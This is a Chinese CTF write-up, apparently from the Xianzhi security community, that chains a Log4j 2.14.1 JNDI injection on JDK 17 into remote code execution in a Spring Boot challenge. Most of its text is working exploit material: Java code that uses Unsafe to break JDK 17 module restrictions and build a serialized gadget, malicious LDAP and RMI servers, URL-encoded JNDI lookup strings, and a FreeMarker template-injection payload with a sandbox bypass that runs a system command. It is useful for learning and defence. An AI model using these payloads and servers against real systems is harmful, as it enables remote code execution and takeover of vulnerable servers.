# jdk17的高版本jndi绕过导致文件写入新思路-先知社区

> **来源**: https://xz.aliyun.com/news/17787  
> **文章ID**: 17787

---

# 题目分析

题目目录结构



看到AdminController



看到name函数调用了一个Loger.log

跟进去看看



又看了一眼log4j的依赖


版本存在log4j漏洞利用

本地jar包起一个项目，利用这个payload验证log4j

```
${java:version}/

%24%7b%6a%61%76%61%3a%76%65%72%73%69%6f%6e%7d%2f
```



然后再认真审计一下整个项目



总结：入口是log4j打jndi注入，但是好像依赖没有链子，tomcat又是高版本（9.0.63），不能直接打BeanFactory  
就是有个工具类System.setProperty(this.dirPro.split(":")[0], this.dirPro.split(":")[1]);设置环境变量，以及能创建目录比较特别。上图左边是依赖，右边是工具类。

然后log4j的入口很抽象访问/admin/name路由

name传参带有

```
<>&\'/
```

上面这些符号就会进入else判断，





触发log4j，版本为2.14.1刚好就是能注入的那个版本

# 工具类利用

我们先看看这个工具类咋去利用的

一个小demo



这边我们是直接new一个类去修改，然后成功了。

但是触发readobject就要走反序列化，就是要利用jdk17绕过反射限制去改值。

完整的exp：

testdir.java

```
/**
 * @className testdir
 * @Author shushu
 * @Data 2025/4/14
 **/
package com.example.ezspring.utils;
import sun.misc.Unsafe;
import java.io.*;
import java.lang.reflect.Field;
import java.io.ObjectInputStream;
import java.util.Base64;

public class testdir {
    public static void unsafe_break_jdk17() throws Exception {
        Field theUnsafe = Unsafe.class.getDeclaredField("theUnsafe");
        theUnsafe.setAccessible(true);
        Unsafe unsafe = (Unsafe) theUnsafe.get(null);
        //获取Object的module
        Module objectmodule = Object.class.getModule();
        //获取当前类对象
        Class mainClass = testdir.class;
        //获取在class中module的偏移量
        long module = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
        //设置module
        unsafe.getAndSetObject(mainClass,module,objectmodule);
    }
    public static void main(String[] args) throws Exception {
        unsafe_break_jdk17();
        Dir dirInstance = new Dir();
        Field dirField = Dir.class.getDeclaredField("dir");
        Field dirProField = Dir.class.getDeclaredField("dirPro");

        // 绕过访问控制
        dirField.setAccessible(true);
        dirProField.setAccessible(true);

        // 赋值（示例：触发JNDI注入）
        dirProField.set(dirInstance, "catalina.base:/app/templates/");
        dirField.set(dirInstance, "/app/templates/http:/127.0.0.1:8885/whoami");

        // 触发readObject（模拟反序列化）
        serialize(dirInstance);
//        deserialize(serialize(dirInstance));

    }
    public static Object deserialize(String payload) throws Exception {
        byte[] data = Base64.getDecoder().decode(payload);
        return new ObjectInputStream(new ByteArrayInputStream(data)).readObject();
    }
    public static String serialize(Object obj) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(byteArrayOutputStream);
        oos.writeObject(obj);
        String payload = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        System.out.println(payload);
        return payload;
    }

}
```

# 转折

这里我百思不得其解，到底怎么去利用这个类，

于是我一直在搜JDK 高版本 JNDI 注入限制这些关键字

直到找到一篇文章

<https://xz.aliyun.com/news/17638>

这篇文章讲述了jdk17利用ladp进行一个反序列化，还有利用rmi协议走MemoryUserDatabaseFactory进行一个xxe文件读取

还提到了如何去写入文件进行rce

于是这里我们就有思路了。可以走jdk17利用ladp进行一个反序列化工具类然后创建目录，

创建完之后利用rmi协议走MemoryUserDatabaseFactory进行一个文件写入，完成RCE

看着思路很简单，但是毕竟是一道比赛的0解题，我们试着按照上面的思路复现一下

# jdk17+ladp反序列化

具体的链子是怎么样的呢？

因为 com.sun.jndi.ldap.object.trustURLCodebase 为 false，所以无法进行远程类加载。但在c\_lookup 中还调用了 Obj.decodeObject 方法，

他是在调用 DirectoryManager.getObjectInstance() 方法之前实现调用的。



跟进这个decodeObject方法

这里有个if判断



在默认情况下VersionHelper.isSerialDataAllowed()他是返回真



所以就直接走到return那里。

返回deserializeObject，继续跟进



发现他调用了一个readobject，这里就说明我们可以打一个jdk17的反序列化

JDK17.java

```
/**
 * @className JDK17
 * @Author shushu
 * @Data 2025/4/14
 **/
package com.shushu;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.URL;
import java.util.Base64;

public class JDK17 {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) {
        String[] args=new String[]{"http://127.0.0.1/#BS"};
        int port = 9999;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[0])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws Exception {
            e.addAttribute("javaClassName", "foo");
            //getObject获取Gadget
            e.addAttribute("javaSerializedData", Base64.getDecoder().decode("这里填入，利用testdir.java生成的base64字节码"));
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

利用log4j触发

```
${jndi:ldap://localhost:9999/BS}
```

然后就会生成目录



终端返回，说明调用到那个工具类了。

```
08:23:19.748 [http-nio-8888-exec-6] ERROR com.example.ezspring.Loger - xss replace:com.example.ezspring.utils.Dir@11ea1ecf
```

# MemoryUserDatabaseFactory+文件写入RCE

一开始我没注意按照文章去写jsp

后面才发现，我们打的这题是springboot框架，不是tomcat，所以不会解析jsp



看到这两个静态文件，又看到依赖里面有个freemarker


这才醒悟过来可能要打ssti的模板注入

## 文件写入

我在docker创建的镜像目录是这样子的



注意上面的testdir.java里面

```
        dirProField.set(dirInstance, "catalina.base:/app/templates/");
        dirField.set(dirInstance, "/app/templates/http:/127.0.0.1:8885/whoami");
```

一定一定要仔细检查路径

我这样子的写法是因为我想后续利用文件写入覆盖原先的templates/admin.ftl

因为MemoryUserDatabaseFactory文件写入是把catalina.base和pathname拼接起来的

而且拼接之后一定要是一个存在的路径

比如说

```
        dirProField.set(dirInstance, "catalina.base:/app/");
        dirField.set(dirInstance, "/app/templates/http:/127.0.0.1:8885/whoami");
```

但是我rmi服务里面是

```
ref.add(new StringRefAddr("pathname", "http://127.0.0.1:8885/../../../templates/admin.ftl"));
```

拼接起来之后就是

```
/app/http://127.0.0.1:8885/../../../templates/admin.ftl
```

导致路径穿越之后找到的是templates，但是没有templates只有app目录，导致不允许写入。

如果路径拼接错误终端是会返回User database is not persistable - no write permissions on directory



同时由于依赖Freemark是2.3.30以后，需要一个沙箱绕过，然后特殊符号记得要编码

网上分析写入的教程太多太详细了，这里就不再赘述

admin.ftl

```
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
  <role rolename="&#x3c;#assign ac=springMacroRequestContext.webApplicationContext&#x3e;&#x3c;#assign fc=ac.getBean('freeMarkerConfiguration')&#x3e;&#x3c;#assign dcr=fc.getDefaultConfiguration().getNewBuiltinClassResolver()&#x3e;&#x3c;#assign VOID=fc.setNewBuiltinClassResolver(dcr)&#x3e;${&#x22;freemarker.template.utility.Execute&#x22;?new()(&#x22;id&#x22;)}"/>
</tomcat-users>

```

## RMIServer

然后再起一个rmi服务，这个用jdk8就行

```
/**
 * @className jndibypass
 * @Author shushu
 * @Data 2025/4/14
 **/
package map.jndi.myselfJndi;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class jndibypass {
    public static void main(String[] args) throws Exception{
        System.out.println("[*]Evil RMI Server is Listening on port: 1099");
        Registry registry = (Registry) LocateRegistry.createRegistry(1099);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(tomcatWriteFile());
        registry.bind("Object", referenceWrapper);
    }
    private static ResourceRef tomcatWriteFile() {
        ResourceRef ref = new ResourceRef("org.apache.catalina.UserDatabase", null, "", "",
                true, "org.apache.catalina.users.MemoryUserDatabaseFactory", null);
        ref.add(new StringRefAddr("pathname", "http://127.0.0.1:8885/../../../templates/admin.ftl"));
        ref.add(new StringRefAddr("readonly", "false"));
        return ref;
    }
}
```

这里也是pathname一定要仔细检查

# Docker复现题目

镜像

```
docker run -p 45412:8888 -it --rm openjdk:17-jdk sh
```



启动JDK17.java然后log4j写入目录

```
${jndi:ldap://192.168.0.100:9999/BS}

%24%7b%6a%6e%64%69%3a%6c%64%61%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%30%2e%31%30%30%3a%39%39%39%39%2f%42%53%7d
```

启动rmi服务,然后log4j写入admin.ifl文件进行一个覆盖

```
${jndi:rmi://192.168.0.100:1099/Object}

%24%7b%6a%6e%64%69%3a%72%6d%69%3a%2f%2f%31%39%32%2e%31%36%38%2e%30%2e%31%30%30%3a%31%30%39%39%2f%4f%62%6a%65%63%74%7d
```

注意，在linux起的python服务的话我是直接在根目录下面新建了一个templates


如果是在windows起的python服务也同理

确保访问

```
http://127.0.0.1:6664/../../templates/admin.ftl
```

的时候能把admin.ftl下载下来

最后应该是打FreeMarker模板注入

任意文件写，然后覆盖





查看docker



已经被我们替换

​

# 总结

这题最后打一个模板的注入漏洞，还是让人感到挺意外的。没想到模板注入能在这里出现。也不难怪这题是比赛中的一题0解题。

​

​
